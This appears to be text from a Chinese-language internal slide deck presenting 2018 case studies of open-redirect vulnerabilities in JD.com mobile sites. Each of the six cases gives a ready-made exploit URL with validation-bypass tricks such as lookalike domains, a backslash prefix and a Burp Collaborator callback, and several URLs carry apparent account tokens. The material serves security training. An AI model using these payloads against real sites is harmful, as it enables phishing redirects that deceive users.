

URL跳转攻击——2018部门案例

shop.m.jd.com URL跳转漏洞
2
M站登录模块URL跳转漏洞
1
http://m.jd.com/user/login.action?returnurl=http://wq.jd.com.baidu.com&appid=100&

若程序判断域名以包含wq.jd.com为合法URL，构造恶意站点http://wq.jd.com.baidu.com会绕过URL检查
http://shop.m.jd.com/sales/doLogin.action?returnUrl=https%3A%2F%2Fxjd.com

URL解码：returnUrl=https://xjd.com
若程序判断域名为*jd.com为合法URL，构造恶意站点xjd.com会绕过URL检查，WVS无法发现此漏洞
passport.m.jd.com存在url跳转漏洞
4
账户验证页面存在url跳转漏洞
3
https://wqs.jd.com/my/checkaccount.shtml?rurl=https://www.baidu.com?pages/pingou/account/index&wid=5032261827&sceneid=12345&curpin=amRfNWU0NGFhMjFlODM3MQ==&PwdMdfToken=1e18ddc652cec0ff0a7fb5f684f3b369&wxappver=2.2.1

若程序判断URL中包含pages/pingou/account/index为合法URL，将其当成参数会绕过访问控制
https://passport.m.jd.com/user/login.action?sid=&returnurl=http%3A%2F%2Fjd.com.letus.cc%23p.m.jd.com%2Fcart%2Fcart.action

URL解码：http://jd.com.letus.cc#p.m.jd.com/cart/cart.action
#代表网页中的一个位置，浏览器读取后会将位置滚动至该位置。
reason参数有URL跳转漏洞
6
M站优惠券模块有URL跳转漏洞

5
http://wq.jd.com/mlogin/wxv3/redirect_3rd?code=authdeny&g_tk=1166071504&g_ty=ls&reason=/%5cwww.baidu.com&state=C69915ECE1D69B70B83A6FB74D3A7B69

利用参数：reason=/%5cwww.baidu.com
http://coupon.m.jd.com/http%3a//i8rr5nukmbkc8m2xv6ejwiq08reia60urmec21.burpcollaborator.net/%3funion?mtm_source=kepler-m&mtm_subsource=30a8d67966b144ada41ad1ce3f4b0972&mopenbp6=1&mopenbp8=3338&returl=https://union-click.jd.com.example.com/

WVS无法发现此漏洞